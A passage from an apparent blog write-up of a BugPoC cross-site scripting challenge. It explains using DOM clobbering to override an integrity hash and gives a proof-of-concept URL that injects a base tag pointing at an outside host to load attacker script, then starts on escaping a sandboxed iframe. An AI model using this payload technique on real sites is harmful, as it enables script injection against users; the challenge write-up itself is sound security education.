 The actual hash that gets set in the `integrity` attribute of the script is defined in `fileIntegrity.value`, which itself is set on the first line(s) of the above snippet. And here's where there's a bit of an *irregularity*:

{% highlight js %}
    window.fileIntegrity = window.fileIntegrity || {
        // ...
{% endhighlight %}

The `fileIntegrity` object has it's value set here, but it keeps it's original value if one is defined. Interesting! It's not defined elsewhere on the page, so why would it already be defined? And more importantly, can we define it?

You can reference elements within the DOM in JavaScript using `window.{id}`. For example:

{% highlight html %}
    <input type="text" id="fileIntegrity" value="itworks" />
    <script>
        console.log(window.fileIntegrity.value);
    </script>
{% endhighlight %}

The above results in `itworks` being logged to the console. So all we need to do is inject an `input` tag with an id of `fileIntegrity` and a `value` of the SHA256 hash of the file we're trying to inject.

Updating our PoC gives us:

{% highlight html %}
<script>
window.name = 'iframe';
window.location = 'https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20href=%22https://xbwvcxixjx6o.redir.bugpoc.ninja%22/%3E%3Cinput%20id%3d%22fileIntegrity%22%20value%3d%22sot4TsoYPMqH9HF0f7P0xsez7m6YnNiGcQWr7OJ6FBc%3d%22%2f%3E';
</script>
{% endhighlight %}

It works! The integrity error is gone from the console. We still don't get an alert though, as the iframe is sandboxed...

![Self-contained iframe](/assets/2020-11-10-bugpoc-xss/sandboxed.png)

## Solving Problem 4: Sandboxed Iframe

We can't create modals within the iframe where our code is being run. The solution here is a simple one - call the `alert()` function on the parent frame instead.

We'll need to create a new Mock Endpoint using the following:
